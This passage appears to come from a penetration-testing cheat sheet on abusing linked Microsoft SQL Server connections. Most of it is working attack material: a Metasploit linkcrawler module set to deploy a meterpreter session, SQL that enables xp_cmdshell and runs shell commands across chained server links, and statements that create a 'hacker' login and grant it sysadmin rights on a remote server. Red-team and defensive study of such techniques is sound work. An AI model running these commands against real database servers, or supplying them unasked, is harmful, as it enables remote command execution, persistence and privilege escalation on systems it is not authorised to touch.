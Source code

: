 > The links between databases work even across forest trusts.

```powershell
msf> use exploit/windows/mssql/mssql_linkcrawler
[msf> set DEPLOY true] #Set DEPLOY to true if you want to abuse the privileges to obtain a meterpreter sessio
```

Manual exploitation

```sql
-- find link
select * from master..sysservers

-- execute query through the link
select * from openquery("dcorp-sql1", 'select * from master..sysservers')
select version from openquery("linkedserver", 'select @@version as version');

-- chain multiple openquery
select version from openquery("link1",'select version from openquery("link2","select @@version as version")')

-- execute shell commands
EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT LinkedServer
select 1 from openquery("linkedserver",'select 1;exec master..xp_cmdshell "dir c:"')

-- create user and give admin privileges
EXECUTE('EXECUTE(''CREATE LOGIN hacker WITH PASSWORD = ''''P@ssword123.'''' '') AT "DOMINIO\SERVER1"') AT "DOMINIO\SERVER2"
EXECUTE('EXECUTE(''sp_addsrvrolemember ''''hacker'''' , ''''sysadmin'''' '') AT "DOMINIO\SERVER1"') AT "DOMINIO\SERVER2"
```

## References

* [Pentest Monkey - mssql-sql-injection-cheat-sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
* [Error Based - SQL Injection ](https://github.com/incredibleindishell/exploit-code-by-me/blob/master/MSSQL%20Error-Based%20SQL%20Injection%20Order%20by%20clause/Error%20based%20SQL%20Injection%20in%20“Order%20By”%20clause%20(MSSQL).pdf)
* [MSSQL Trusted Links - HackTricks.xyz](https://book.hacktricks.xyz/windows/active-directory-methodology/mssql-trusted-links)
* [SQL Server – Link… Link… Link… and Shell: How to Hack Database Links in SQL Server! - Antti Rantasaari - June 6th, 2013](https://blog.netspi.com/how-to-hack-database-links-in-sql-server/)
* [DAFT: Database Audit Framework & Toolkit - NetSPI](https://github.com/NetSPI/DAFT)
